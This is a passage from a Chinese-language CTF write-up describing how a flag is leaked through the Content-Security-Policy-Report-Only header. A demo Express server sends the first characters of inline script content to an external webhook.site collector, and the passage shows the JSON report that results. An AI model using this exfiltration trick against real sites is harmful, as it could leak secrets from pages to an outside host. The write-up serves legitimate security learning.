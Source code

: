 第三階段是利用 [Content-Security-Policy-Report-Only](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy-Report-Only) 這個 header 來 leak flag，主要是因為違反規則時，會發送一段 JSON 到 server，其中有個 `script-sample`，如果是 inline script 違反的話會有前 40 個字元（還有一個前提，那就是 CSP 要加上 `report-sample`）。

我們可以自己弄個簡單的 server 來驗證：

``` js
const express = require('express')
const app = express()

app.get('/abc', (req, res) => {
  res.header('Content-Security-Policy', "default-src 'self'; script-src 'self';")
  res.header('Content-Security-Policy-Report-Only', "script-src 'report-sample'; report-uri https://webhook.site/419d518f-922b-4e1e-8583-65596fae1c95")
  
  res.send(`
    <body>
      <h1>hello</h1>
      <script>flag{test_flag}</script>
    </body>
  `)
  res.end()
})

app.listen(3000, () => {
  console.log('listening on http://localhost:3000')
})
```

從瀏覽器就可以看到送出去的 request 長怎樣：

```
{
  "csp-report": {
    "document-uri": "http://localhost:3000/abc",
    "referrer": "",
    "violated-directive": "script-src-elem",
    "effective-directive": "script-src-elem",
    "original-policy": "script-src 'report-sample'; report-uri https://webhook.site/419d518f-922b-4e1e-8583-65596fae1c95",
    "disposition": "report",
    "blocked-uri": "inline",
    "line-number": 4,
    "source-file": "http://localhost:3000/abc",
    "status-code": 200,
    "script-sample": "flag{test_flag}"
  }
}
```

靠著這個，就可以順利拿到 flag，打完收工。



## 其他可能性
